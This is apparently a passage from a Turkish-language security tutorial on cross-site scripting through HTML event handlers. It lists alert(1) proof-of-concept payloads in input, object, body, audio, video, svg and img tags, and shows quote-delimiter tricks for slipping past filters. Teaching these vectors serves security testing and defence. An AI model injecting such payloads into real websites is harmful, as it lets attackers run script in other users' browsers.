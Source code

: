 **type** özelliği ve XSS payload’ı üzerindeki değişiklik gösterilebilir. Farklı teknikler de javascipt kodları manipüle edilerek zararlı payload çalıştırılabilir. Farklı tekniklerden biri ise, **Event Handlers** olarak bilinen Olay İşleyicileri kullanılabilir. HTML dilinde, olay işleyicileri bir öğenin tetiklediği olayları gerçekleştirmektedir. Olay işleyicileri, gerçekleşecek olayları, javascript kodlarıyla gerçekleştirir. Öğelerin tetikleyeceği olaylar, tarayıcı veya bir kullanıcı tarafından başlatılabilir. Bir butona tıklama olayı, sayfayı yükleme olayı veya bir hata fırlatma olayı örnek olarak verilebilir. 

Örnek olarak bir formun doldurulması durumunda;

```javascript
<input onsubmit=alert(1)>
```

**onsubmit** olay işlemcisine XSS payload’ı atanabilir. **onsubmit** olayı gerçekleştirildiğinde enjekte edilen XSS payload’ı çalışabilir. Bazı olay işlemcileri ise kullanıcının etkileşimi olmadan gerçekleştirilebilir. Bunlara örnek olarak;

```javascript
<object onerror=alert(1)>

<body onactivate=alert(1)>

<body onfocusin=alert(1)>

<script onreadystatechange=alert(1)>

<input autofocus onfocus=alert(1)>
```

**onerror, onactivate, onfocusin, onreadystatechange** ve **onfocus** olay işlemcileri verilebilir. HTML5’te ise bazı olay işleyiciler ile ilgili bazı yeni saldırı vektörleri ortaya çıkmaktadır. Örnek olarak;

```javascript
<audio src="new.mp3" onerror=alert(1)>

<video src="new.mp4" onerror=alert(1)>

<svg width="200" height="100" onload=alert(1)>
```

ses, video ve SVG grafiklerini içeren medya öğeleri verilebilir. Açılan etiketlerde olay işleyicilerde payloadlar kullanıldığı gibi kapatılan etiketlerde de kullanılabilir. Örnek olarak;

```javascript
</a onfocus=alert(1)>
```

**a** etiketini kapatan etikete payload eklenmesiyle verilebilir. 

XSS zafiyetini tetiklemek için kullanılan farklı tekniklerden bir diğeri sınırlayıcılar ve parantezler olabilir. Sınırlayıcılar, metin dizelerini birbirinden ayırmak için kullanılan bir veya birden fazla karakter meydana gelebilir. XSS zafiyetinin ararken sınırlayıcıların kullanılması verimli olabilir. HTML’de boşluk, genellikle nitelikleri ve değerleri birbirinden ayırmak için kullanılabilir. Sınırlayıcı olarak tek tırnak veya çift tırnak kullanılarak bazı filtrelemeler atlatılabilir.

```javascript
<img onerror="alert(1)"src=x>

<img onerror='alert(1)'src=x>
```
